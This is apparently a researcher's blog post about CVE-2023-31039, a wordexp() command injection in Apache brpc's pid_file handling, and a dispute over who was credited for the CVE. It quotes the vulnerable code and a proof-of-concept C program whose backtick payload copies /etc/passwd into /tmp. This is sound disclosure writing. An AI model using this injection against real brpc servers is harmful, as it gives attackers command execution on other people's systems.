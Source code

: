 ```yaml
---
title: "CVE-2023-31039: Dont Steal My First CVE"
date: 2023-06-26T17:54:07+07:00
draft: false
iscjklanguage: false
isarchived: false
categories: ["Security Research"]
images: ["https://images.unsplash.com/photo-1501139083538-0139583c060f?w=1920&q=50"]
aliases: []
description: "My first CVE experience and how it was stolen by someone else."
---
```



{{< figure src="https://brpc.apache.org/images/docs/logo.png"  >}}

## Introduction

In the vast landscape of open source software, collaboration and contribution are highly valued. Open source projects rely on the collective efforts of developers around the world to improve and secure their codebases. However, sometimes the lines between collaboration and opportunism can blur, leading to unexpected situations that can leave contributors feeling betrayed. Throughout this blog post, i highlights the importance of ethical behavior within open source communities for responsible disclosure and attribution, emphasizing the need for transparency, acknowledgment, and fair recognition of researcher effort. 

## Vulnerability
Before dive deep into the problem, lets talk about the vulnerability itself. The vulnerability occur at this [method](https://github.com/apache/brpc/blob/eda61e7762bcea98b85410f80a2fa55e2c618845/src/brpc/server.cpp#L1725)
```c
static std::string ExpandPath(const std::string &path) {
    if (path.empty()) {
        return std::string();
    }
    std::string ret;
    wordexp_t p;
    wordexp(path.c_str(), &p, 0);
    CHECK_EQ(p.we_wordc, 1u);
    if (p.we_wordc == 1) {
        ret = p.we_wordv[0];
    }
    wordfree(&p);
    return ret;
}
``` 
As you can see, the project is using `wordexp()` to expand a path. For example if you input path like `~/project/hack` it will translated into `/home/syahrul/project/hack`. According to `wordexp` [manual pages](https://man7.org/linux/man-pages/man3/wordexp.3.html) user supplied input must not contains some character to do command substitution like `${}` or double backtick because the path expansion from `wordexp` is same as the expansion by the shell `sh()`. So if you input path like `~/project/${hack}` it will translated into `/home/syahrul/project/hack` and the `hack` will be executed as a command. This is a critical vulnerability because it can lead to remote code execution. 

Back into the vulnerable code, if we can control the `path` string, we can run any command on system. After tracing the cross reference, the `ExpandPath` method is used by `PutPidFileIfNeeded()`

```c
void Server::PutPidFileIfNeeded() {
    _options.pid_file = ExpandPath(_options.pid_file);
    if (_options.pid_file.empty()) {
        return;
    }
    RPC_VLOG << "pid_file = " << _options.pid_file;
    ....
}
```

And the `_options.pid_file` is user controllable input from `ServerOptions::pid_file`. The example of usage of `ServerOptions::pid_file` is available on the [one of this unit test](https://github.com/apache/brpc/blob/8256f7f0d28169f295a2c34b513993276a93461b/test/brpc_server_unittest.cpp#L1386).

```c
TEST_F(ServerTest, create_pid_file) {
    {
        brpc::Server server;
        server._options.pid_file = "./pid_dir/sub_dir/./.server.pid";
        server.PutPidFileIfNeeded();
        pid_t pid = getpid();
        std::ifstream fin("./pid_dir/sub_dir/.server.pid");
        ASSERT_TRUE(fin.is_open());
        pid_t pid_from_file;
        fin >> pid_from_file;
        ASSERT_EQ(pid, pid_from_file);
    }
    std::ifstream fin("./pid_dir/sub_dir/.server.pid");
    ASSERT_FALSE(fin.is_open());
}
```
Now the vulnerability can exploited by mimic the unit test. The following payload will create a file named `pwned_by_ru1es` on `/tmp` directory.

```c
#include <brpc/server.h>

int main(int argc, char* argv[]) {
    brpc::Server server;
    brpc::ServerOptions options;
    options.pid_file = "`cat /etc/passwd > /tmp/pwned_by_ru1es`";
    if (server.Start(1337, &options) != 0)
    {
        LOG(ERROR) << "Fail to start HttpServer";
        return -1;
    }
    server.RunUntilAskedToQuit();
    return 0;
}
```

i have created the Proof of Concept with docker to reproduce the vulnerability. You can check it [here](https://github.com/sahruldotid/CVEs/tree/main/CVE-2023-31039)

## Reporting

Few days before i found the vulnerability, i stumble upon [this website](https://huntr.dev) that offer you some ability to report a open source security vulnerability to the maintainer. I think this is useful for me because i dont need to find any contact or email of the maintainer. Also this platform is cooperate with MITRE CVE Program to assign CVE ID so that i think this is a good place to report the vulnerability.

Here's the report link : [https://huntr.dev/bounties/c4c8b69e-daf7-4e6b-982b-732936a7d8a4/](https://huntr.dev/bounties/c4c8b69e-daf7-4e6b-982b-732936a7d8a4/)

I reported at 20 April 2023 with all the information like the description, vulnerable code, the PoC, and the impact of the vulnerability. 
![](https://user-images.githubusercontent.com/11147011/248794384-73e2aa35-55e8-490d-a1c2-aa41bf3c9644.png)

After few days, specifically at 24 and 27 April 2023, the maintainer aknowledge and validate my report as valid security vulnerability
![](https://user-images.githubusercontent.com/11147011/248795332-32aa1723-37a2-41a7-9eba-7460e654fce2.png)

Few days without any response, i found that the maintainer released new version of brpc and the vulnerability has been patched within [this commit](https://github.com/apache/brpc/commit/49038448a718f3c5093cc9ebed6e316cf0041cc0)
![](https://user-images.githubusercontent.com/11147011/248796662-26ffe5c6-2380-4c38-a19f-05234f31985b.png)
![](https://user-images.githubusercontent.com/11147011/248797371-956cdec1-f4fb-4e1e-8fad-9d237bb653e4.png)

This is exactly same as the occurence of the vulnerability in my report and the date is obviously after my report. So i think this is a good sign that the maintainer has fixed the vulnerability.
![](https://user-images.githubusercontent.com/11147011/248798665-5f8002bd-d278-4d67-bb2f-c9fd79c69206.png)

Then i contacted the admin of huntr.dev about status of my report now. One of the admin said that Apache is probably strategically delaying the publication of the vulnerability report. At first place i think maybe i need to wait more. But after few days, i found that the vulnerability has been published on [CVE-2023-31039](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-31039) and [NVD](https://nvd.nist.gov/vuln/detail/CVE-2023-31039) with the date 2021-05-08. 

This CVE date is exactly after i reported this vulnerability and the maintainer didnt event resolve my report at huntr.dev anymore. My patience is running out, through discord DM, i contacted one of the huntr.dev admin and they said: 
![](https://user-images.githubusercontent.com/11147011/248801845-86b6bf09-8e63-480c-852d-be75dfc138f5.png)

Like i was expected, the maintainer didnt even resolve my report at huntr.dev after a week and now admin has to published the vulnerability manually. I think this is not fair for me because i have reported the vulnerability first and the maintainer didnt even resolve my report even they assign the CVE under someone name 🤣. This is a bad practice from the maintainer and i think this is not a good way to treat the security researcher. I also dissapointed because the platform didnt escalate the issue or do anything about it in order to help assign my name under the CVE 😅.

## Timeline
- 2023-04-20: Vulnerability discovered.
- 2023-04-24: Maintainer acknowledge the report.
- 2023-04-27: ASF Security Team validated this vulnerability.
- XXXX-XX-XX: Maintaner fixed the vulnerability.
- XXXX-XX-XX: Assigned CVE but not under my name.
- 2023-05-06: Saw vulnerability has been fixed and i contact the Admin why there's no updates.
- 2023-05-22: Admin replied and said that i need to wait.
- 2023-06-12: Recontact the Admin and ask for updates through DM.
- 2023-06-26: Vulnerability published.

## Conclusion

Well, at the end of the day, i cant do anything about it and just gave up. I hope this writeup can be a lesson for me and for the other security researcher to be more careful when reporting a vulnerability to the maintainer through third party platform.

### Q&A 
- Q: How did you know that the maintainer is stealing your vulnerability
- A: Well after doing some osint, i find out that someone who submit PR is one of maintainer. You can check his email at this [mailing list](https://seclists.org/oss-sec/2023/q2/130) 

Thank you for reading!
